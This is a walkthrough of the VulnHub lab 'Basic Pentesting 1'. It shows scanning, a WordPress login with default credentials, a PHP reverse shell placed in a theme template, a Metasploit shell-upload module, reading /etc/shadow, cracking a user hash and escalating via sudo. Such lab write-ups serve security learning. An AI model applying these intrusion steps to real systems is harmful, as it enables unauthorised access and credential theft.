## MACHINE INFO

> **[Basic Pentesting 1](https://www.vulnhub.com/entry/basic-pentesting-1,216/)** is a vulnerable machine from VulnHub that involves exploiting a file upload vulnerability on a Wordpress Admin page that will give us a shell in which we are able to get a hashed password to a user with sudo privileges on the system.

## INSTALLATION
Download the vulnerable machine from the following link: https://www.vulnhub.com/entry/basic-pentesting-1,216/ 
 
## NETWORK CONFIGURATION
I used VirtualBox to do the lab. Once I installed the vulnerable machine to VirtualBox, I had to ensure my attack machine (Kali for my case) was in the same network as the vulnerable machine.

I edited the network configurations for both machines and set them to NAT. Once that was done I booted up both machines.


## VULNERABLE MACHINE


The vulnerable machine is running on Ubuntu but we do not have the password of the user `marlinspike` . 
Default passwords like `password` `password123` `admin` did not work and Ubuntu does not have default login credentials.

## ENUMERATION
First steps is to find the IP address of the vulnerable machine. Since the machine is in the same network as the attack machine, the we need to find the IP of the attack machine using `ifconfig`.



The attack machine's ip is `192.168.159.128` meaning the network is  `192.168.159.0/24` 

To find the vulnerable machine's ip, we use nmap to scan the entire network. To scan an entire network using NMAP, use the `sn` flag.
```sh
[sudo] password for kai: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-03 03:49 EST
Nmap scan report for 192.168.166.1
Host is up (0.00027s latency).
MAC Address: 00:50:56:C0:00:08 (VMware)
Nmap scan report for 192.168.166.2
Host is up (0.00014s latency).
MAC Address: 00:50:56:E1:74:6C (VMware)
Nmap scan report for vtcsec (192.168.166.130)
Host is up (0.00020s latency).
MAC Address: 00:0C:29:E7:CB:5F (VMware)
Nmap scan report for 192.168.166.254
Host is up (0.00021s latency).
MAC Address: 00:50:56:E1:B9:0E (VMware)
Nmap scan report for 192.168.166.128
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.01 seconds
```

From the output, the network has 5 hosts up. We need to scan all other hosts, besides that of our attack machine.

### 192.168.166.1

- Nothing is running on this host

### 192.168.166.2

- A DNS Server seems to be running on this host but no hints towards running on Ubuntu so this is not our vulnerable machine.

### 192.168.166.254

- Nothing is running on this host


### 192.168.166.130
```sh
└─$ sudo nmap -sCV -T4 192.168.166.130
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-03 03:56 EST
Nmap scan report for vtcsec (192.168.166.130)
Host is up (0.00025s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
|_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
MAC Address: 00:0C:29:E7:CB:5F (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.33 seconds
```

This could be the target machine as it is running Ubuntu. The target machine is running three services as seen from the NMAP output.

## TARGET ENUMERATION
### FTP 
Enumeration of the FTP service by testing if it allows for anonymous logons. 


As seen in the output, anonymous login failed. So we proceed to the next service.

### PORT 80 (HTTP)


There wasn't much here, so we need to enumerate for hidden directories. For this we can use `gobuster`
```sh
└─$ gobuster dir -u http://192.168.166.130/ -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.159.128/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 294]
/.htpasswd            (Status: 403) [Size: 299]
/.htaccess            (Status: 403) [Size: 299]
/index.html           (Status: 200) [Size: 177]
/secret               (Status: 301) [Size: 319] [--> http://192.168.159.128/secret/]
/server-status        (Status: 403) [Size: 303]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

Gobuster reveals an interesting directory `/secret`
#### /secret directory
On loading the directory, it is revealed that is ppowered by Wordpress.


There wasn't much on the website so we enumerate further for hidden directories using Gobuster.

```sh
─$ gobuster dir -u http://192.168.159.128/secret/ -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.159.128/secret/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 301]
/.htpasswd            (Status: 403) [Size: 306]
/.htaccess            (Status: 403) [Size: 306]
/index.php            (Status: 301) [Size: 0] [--> http://192.168.159.128/secret/]
/wp-admin             (Status: 301) [Size: 328] [--> http://192.168.159.128/secret/wp-admin/]
/wp-content           (Status: 301) [Size: 330] [--> http://192.168.159.128/secret/wp-content/]
/wp-includes          (Status: 301) [Size: 331] [--> http://192.168.159.128/secret/wp-includes/]
/xmlrpc.php           (Status: 405) [Size: 42]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
This reveals some interesting directories such as `wp-admin`. When we access the page, it resolves to a hostname `vtcsec` which we add to our `/etc/hosts` file.

When we access the website again, it resolves to a more clear website as seen below:

#### wp-admin


Default username for Wordpress is `admin`.  I tried different default passwords but the `admin:admin` combination successfully logged me in as the admin.



Conducted enumeration through the website trying to find any upload features. Under the `themes` tab, I was able to edit the themes to anything of my liking. There were several php templates but I chose to edit the `404.php` template to avoid messing around with other important php templates necessary for the website to run.



I pasted a php reverse shell script from pentestmonkey (https://github.com/pentestmonkey/php-reverse-shell)



With my listener running, I attempted to prompt the execution of this shell by refreshing the template but I got no shell.


I tried this a couple of times but still got no session on my listener.

Some research online on the lab, pointed me towards using metsaploit to get a shell.
On the console I searched for exploits related to the Wordpress `wp_admin` dashboard and found a shell upload exploit.


I used the `show options` command to determine what parameters are needed for the exploit to run.


We need to set the following parameters:
- `password` : admin
- `username` : admin
- `rhosts` : ip of the target machine
- `rport` : port in which the website is running
- `targeturi` : the secret blog website url
- `lhost` : ip of our attack machine
- `lport` : listening port

Once that is done, we successfully get a shell as `www-data`!!


To stabilize the shell, I used python.
```sh
python -c 'import pty; pty.spawn("/bin/bash")'
```

Now that my shell was stablized, I tried different techniques such as:

1. Uploading my own ssh keys to the machine to be able to get an even more stable connection but that did not work.
2. I enumerated through interesting files such as 
	- `/etc/passwd` : Contains information about user accounts on the system
	- `/etc/shadow` : Stores password - related information

There was some interesting information on the `shadow` file. It revealed a hash belonging to the user `marlinspike`


Proceeded to crack the hash.

```sh
echo 'marlinspike:$6$wQb5nV3T$xB2WO/jOkbn4t1RUILrckw69LR/0EMtUbFFCYpM3MUHVmtyYW9.ov/aszTpWhLaC2x6Fvy5tpUUxQbUhCKbl4/:17484:0:99999:7:::' > pass
```

I successfully managed to crack it using `John The Ripper` and got the password of marlinspike, which interestingly enough is his username.


With his password, I can now authenticate as him on the Ubuntu page.


And I succesffully logged in as `marlinspike`

## PRIVILEGE ESCALATION
Now that we are authenticated as `marlinspike`, I tried to escalate privileges to root.

I used `sudo -l` to check what kind of root privileges `marlinspike` had. 


The user has full root privileges over the system. Using `sudo su` I was able to become root without being prompted for a password.



